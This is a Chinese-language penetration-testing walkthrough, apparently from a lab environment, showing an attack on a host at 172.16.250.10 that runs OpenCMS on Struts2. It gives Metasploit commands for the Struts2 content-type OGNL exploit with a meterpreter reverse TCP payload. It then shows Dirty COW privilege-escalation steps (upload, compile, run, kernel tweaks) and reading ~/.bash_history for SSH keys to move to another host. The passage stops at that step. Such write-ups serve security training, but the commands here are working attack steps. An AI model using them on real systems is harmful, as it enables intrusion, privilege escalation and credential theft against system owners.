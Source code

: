 ![截图](068a9380863d0d943b3a2903d43ecf61.png)

80 与 8080 端口开放！！！然后，让我们看看80端口的web是什么。 当我们打开浏览后，可以在页尾的右下角看到这里写了cms框架是opencms。

![截图](b1d52c181baa6ca974de70f6e5ebf692.png)

因此，可以探寻有关于opencms的漏洞。除此之外，由于我们使用插件可以探测到其是java框架，因此我们可以考虑一下是不是Struts2或者spring框架。 访问一下struts2-showcase路径，看是否成功

![截图](aaef85dc53fbee8dd6d6d02c9c6fccef.png)

因此，我们可以得知，opencms使用的是Struts2框架并且是struts2 showcase，存在漏洞！

#### 2）利用struts2 showcase漏洞入侵10主机

我们开启msf，并设置对应漏洞：

```shell
use exploit/multi/http/struts2_content_type_ognl
set payload linux/x64/meterpreter/reverse_tcp
set rhosts 172.16.250.10
set lport 80
run
```

![截图](123e9b1fcbb1ad30bd37c5182e8e7f0a.png)

#### 3）权限维持与提升

这里为了提升权限，我们将使用脏牛进行提权：

```bash
# 0、上传并执行
upload /root/dirtycow-mem.c /tmp
shell
# 1、编译并启动
gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
python3 -c "import pty;pty.spawn('/bin/bash')"
./dirtycow-mem
# 2、持续稳定：
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
echo 1 > /proc/sys/kernel/panic && echo 1 > /proc/sys/kernel/panic_on_oops && echo 1 > /proc/sys/kernel/panic_on_unrecovered_nmi && echo 1 > /proc/sys/kernel/panic_on_io_nmi && echo 1 > /proc/sys/kernel/panic_on_warn
```

![截图](44173124a378482f473fda67bec9513c.png)

#### 4）进一步的入侵30主机

这里，在外面拿到了对应的权限后，我们可以看看命令行的历史记录里面是否存在一些关键信息（比如ssh的密钥文件）

```bash
cat ~/.bash_history
```
